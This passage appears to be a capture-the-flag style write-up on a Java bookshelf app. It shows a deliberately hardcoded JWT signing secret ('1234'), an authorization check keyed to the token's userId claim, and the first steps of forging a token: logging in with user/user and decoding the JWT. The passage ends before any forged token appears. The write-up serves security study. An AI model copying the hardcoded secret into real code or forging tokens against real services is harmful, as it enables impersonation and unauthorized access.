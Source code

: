 **Location:** `src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java:23`

```java
private String generateRandomString(int len) {
    // not so random  
    return "1234";
}
```

The JWT signing secret is hardcoded to `"1234"` instead of being randomly generated, making JWT forgery trivial.

### Authorization Bypass Mechanism

The application performs access control in `BookPdfAccessCheck.java:36`:

```java
boolean permissionGranted = (user.getRole().getValue()>=book.getRole().getValue());
```

However, the user object is fetched from the database using the `userId` claim from the JWT:

```java
Optional<User> userOptional = userRepository.findById(userId);
```

This means we can impersonate any user by forging their `userId` in the JWT.

## Exploitation Steps

### Step 1: Initial Login

Login with provided credentials (`user`/`user`) to obtain a valid JWT token:

```
POST /base/login
{
  "email": "user",
  "password": "user"
}
```

### Step 2: JWT Token Analysis

The original JWT token received:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc1NjQ4MjU2MCwiaWF0IjoxNzU1ODc3NzYwLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.ORgKxsHO6xkmryFLo4BS7k6cHKVHAuFfLnGuHEBWnOk
```

Decoded payload:
```json
{
  "role": "Free",
  "iss": "bookshelf", 
  "exp": 1756482560,
  "iat": 1755877760,
  "userId": 1,
  "email": "user"
}
```
